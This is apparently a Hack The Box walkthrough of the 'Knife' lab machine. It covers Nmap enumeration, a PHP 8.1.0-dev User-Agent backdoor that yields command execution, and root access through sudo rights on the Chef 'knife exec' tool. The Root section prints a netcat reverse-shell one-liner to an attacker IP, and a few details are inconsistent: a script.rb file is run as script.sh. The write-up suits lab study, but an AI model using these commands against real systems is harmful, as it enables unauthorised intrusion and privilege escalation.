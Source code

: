 #+TITLE: Knife
#+AUTHOR: Romeu Vieira

#+OPTIONS: html-style:nil
#+OPTIONS: html-scripts:nil

#+OPTIONS: author:nil
#+OPTIONS: email:nil
#+OPTIONS: date:t
#+OPTIONS: toc:nil

#+PROPERTY: header-args :eval no

#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="/style.css"/>

#+EXPORT_FILE_NAME: knife

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT

#+TOC: headlines 2

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT

* Enumeration

Starting with Nmap:

#+BEGIN_SRC
$ nmap -sC -sV -p1-65535 10.10.10.242
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-29 16:16 WEST
Nmap scan report for 10.10.10.242
Host is up (0.044s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.23 seconds

#+END_SRC

This being an obvious website (port =80= is open), then it should be added to
the =hosts= file, to simplify things:

#+BEGIN_SRC
10.10.10.242 knife.htb
#+END_SRC

The website is completely bare-bones. There is a fancy animation, but nothing is
clickable in the menu top-right. Path bruteforcing does not show any relevant
results.
From here, we should look at the response headers. In there we can see that
=Apache Httpd= version is =2.4.41=.

To see the rest of the response headers, we just run =cURL= like this:

#+BEGIN_SRC
$ curl -v knife.htb

Trying 10.10.10.242:80...
Connected to knife.htb (10.10.10.242) port 80 (#0)
> GET / HTTP/1.1
> Host: knife.htb
> User-Agent: curl/7.76.1
> Accept: */*
>
Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Sat, 29 May 2021 15:48:33 GMT
< Server: Apache/2.4.41 (Ubuntu)
< X-Powered-By: PHP/8.1.0-dev
< Vary: Accept-Encoding
< Transfer-Encoding: chunked
< Content-Type: text/html; charset=UTF-8
...
#+END_SRC

The website is also using PHP. Its version is =8.1.0-dev=, =dev= being a
development version. A search on =Google= for PHP exploits, the
[[https://packetstormsecurity.com/files/162749/PHP-8.1.0-dev-Backdoor-Remote-Command-Injection.html][first
result shows us a way of doing remove command injection!]].
This exploit verifies if =PHP/8.1.0-dev= appears in the headers and then does a
=GET= request with a specific value in =User-Agent=, something along the lines
of ="User-Agent": "zerodiumsystem("$remote_command");"=.

We save the exploit to =exploit.py= and try the =ls= command to test it:

#+BEGIN_SRC
$ python exploit.py -u http://knife.htb/ -c ls
[+] Results:
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
#+END_SRC

We got the filesystem root directory and that means the exploit is working for
this machine.

* User

Obviously, there is a possibility to do a reverse shell, but using this script
to run commands seems to suffice.
Running the =id= command, we find out the current user is =james= and the user
flag is inside =/home/james/=.

* Root

Running the command =sudo -l= while in user =james=, we get the following
information:

#+begin_src
$ python exploit.py -u http://knife.htb/ -c "sudo -l"
[+] Results:
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

#+end_src

We can run command =knife= as root! =knife= is a command-line tool that provides
an interface between a =chef= repo and the =Chef Infra Repository=
(https://docs.chef.io/workstation/knife/).
In the same link, we can also see that there is a subcommand called =exec=,
which runs Ruby scripts. Since we can run =knife= as root and run Ruby scripts
with it, probably running system commands through the scripts might be the best
course of action to get the root flag.
For this, a reverse shell is useful so we can write to a file. Going throught
the =ssh= route seems to be impossible, because it still asks for the password,
even though we have access to the private key. So reverse shell it is.
Using netcat to listen (=nc -lnvp 1337=), we then use the exploit to run the command to connect
to the reverse shell:

#+begin_src
$ python exploit.py -u http://knife.htb/ -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.76 1337 >/tmp/f"
#+end_src

And on the new shell, we run these commands:

#+begin_src
$ cd /home/james
$ echo "system(\"cat /root/root.txt\")" > script.rb
$ sudo knife exec script.sh
#+end_src

The output should be the root password!

* FOOTER                                                                                              :ignore:
:PROPERTIES:
:clearpage: t
:END:
#+BEGIN_EXPORT html
<hr>
<footer>
<p class="footer_right">30-05-2021</p>
<p><a class="footer" href="/index.html">Homepage</a></p>
<p><a class="footer" href="/writeups/htb/index.html">Back</a></p>
<div style="clear: both;"></div>
</footer>
#+END_EXPORT
